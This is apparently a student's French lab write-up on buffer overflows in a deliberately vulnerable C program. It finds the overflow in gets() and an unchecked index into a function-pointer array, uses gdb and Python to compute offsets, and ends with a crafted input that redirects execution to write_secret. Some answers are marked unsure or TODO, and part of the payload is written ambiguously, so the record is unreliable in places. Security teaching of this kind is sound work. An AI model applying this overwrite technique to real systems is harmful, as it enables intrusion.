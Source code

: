# TP sur le Buffer Overflow

Pour référence :

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };

int main(int argc, char *argv[]) {

  while(1) {
      char  buf[1024] = {0};
      int r;
      fptr p = pat_on_back;
      r = write(outfd, greeting, sizeof(greeting)-sizeof(char));
      if(r < 0) {
        break;
      }
      r = read(infd, buf, sizeof(buf)-sizeof(char));
      if(r > 0) {
        buf[r] = '\0';
        int s = atoi(buf);
        fptr tmp = ptrs[s];
        tmp();
      } else {
        break;
      }
  }

  return 0;
}
```

## Question 1

La 1re variable que je trouve étant sujette à une attaque buffer overflow est `wis` dans la fonction `put_wisdom`.

## Question 2

Cette variable est remplie par la fonction dépréciée `gets`, qui écrit dans la mémoire sans vérifier la taille du buffer, jusqu'à rencontrer un `\n`, EOF ou `\0`.

```c
void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;
  ...
}
```

## Question 3: NOT SURE

Une autre variable est sujette à une attaque buffer overflow et qui ne se trouve pas dans la *stack* est le tableau `ptrs` qui est une variable global.

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };
```

## Question 4: TODO

## Question 5

```
(gdb) print &buf
$2 = (char (*)[1024]) 0xbffff400
```

## Question 6

```
(gdb) print &ptrs
$3 = (fptr (*)[3]) 0x804a0d4
```

## Question 7

```
(gdb) print &write_secret
$4 = (void (*)(void)) 0x8048534 <write_secret>
```

## Question 8

```
(gdb) print &p
$6 = (fptr *) 0xbffff804
```

## Question 9

En python : 

```
>>> ptrs = 0x804a0d4
>>> p = 0xbffff804
>>> (p-ptrs)//4
771675596
```

On divise par 4 car avec `ptrs[1]` on se déplace de 1 adresse, et 1 adresse = 4 octets sur un système 32 bits.
Ainsi, si on veut se déplacé de X octets, on peut en faite faire `ptrs[X//4]`.

Note : `//` est l'opérateur de division entière en python.

## Question 10

```
>>> ptrs = 0x804a0d4
>>> buf = 0xbffff400
>>> (buf-ptrs + 64)//4
771675355
```

## Question 11

```
>>> ptrs = 0x804a0d4
>>> write_secret = 0x8048534
```

Donc on écrit en input :
```
771675355\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x8
~~~~~~~~~ ~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~
adresse   fin  On remplit buf pour attendre buf[64]                 adresse de 
                                                                    write_secret 
                                                                    en 
                                                                    little-endian 
                                                                    (\x8 ou \x08)
```